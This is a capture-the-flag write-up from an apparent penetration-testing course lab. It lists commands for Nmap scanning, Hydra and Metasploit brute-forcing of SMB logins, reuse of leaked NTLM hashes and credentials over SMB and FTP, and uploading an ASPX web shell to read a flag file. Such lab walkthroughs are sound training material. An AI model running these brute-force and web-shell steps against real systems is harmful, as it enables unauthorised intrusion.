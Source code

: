 ## Host & Network Penetration Testing: Exploitation CTF 2

### Flag 1: Looks like smb user tom has not changed his password from a very long time.

Using Nmap we find some useful ports open.
```
nmap target.ine.local -sS -T4 -p21,80,135,139,445,3389 -sV
```
Following the track hint, we begin to enumerate port 445.
```
nmap target.ine.local -sS -T4 -p445 -sV -sC
```
We are not able to discover anything useful, so we try a brute force  attack against SMB port with Hydra.
```
hydra -l tom -P /usr/share/wordlists/metasploit/unix_passwords.txt target.ine.local smb
```
Hydra presents an error. Upon online research, it appears that this issue may be caused by an incorrect communication dialect that can be changed with the -m flag. However, this does not provide further clarification.

We try with the Metasploit module "smb_login". Configuring it the same way as Hydra and launching it gives us the password fo the user tom.
```
tom:felipe
```
We list shared folders:
```
smbclient -L target.ine.local -U tom
```
```
ADMIN$
C$
D$
HRDocuments
ITResources
```
We try to connect to the fourth one in which we find the first flag:
```
smbclient //target.ine.local/HRDocuments -U tom 
```

### Flag 2: Using the NTLM hash list discovered in the previous challenge, can you compromise the smb user nancy?

We can locate the leaked_hashes.txt file in the same directory as the flag1.txt file.

Utilizing the tom credential, we enumerate other users with the Metasploit module smb_enumusers.
```
Administrator
david
nancy
sum-user
tom
```
After some research, we have identified the most effective approach to proceed, which involves utilising the Metasploit module smb_login in conjunction with the password file "leaked_hashes.txt".
```
set CreateSession true
set SMBUser nancy
set PASS_file leaked-hashes.txt
run
```
Enumerating the ITResources share, we discover the second flag and an hint for the next flag.
```
david:omnitrix_9901
```

### Flag 3: I wonder what the hint found in the previous challenge be useful for!

The credentials obtained in the previous step are useless for the SMB protocol, as we can observe thanks to SMBMap.
```
smbmap -H target.ine.local -u david -p omnitrix_9901
```
Using these credentials and the FTP protocol, we successfully gained access and retrieved the third flag.
```
ftp target.ine.local
```

### Flag 4: Can you compromise the target machine and retrieve the C://flag4.txt file?

Having access to the root folder of the site located on port 80, “target.ine.local:80”, we can upload a web shell.
We have only one option:
```
/usr/share/webshells/aspx/cmdasp.aspx
```
After uploading the shell, we use Firefox to exploit the site http://target.ine.local/cdmasp.aspx. Using the track hint, we type the following command to obtain the last flag:
```
type c:\flag4.txt
```
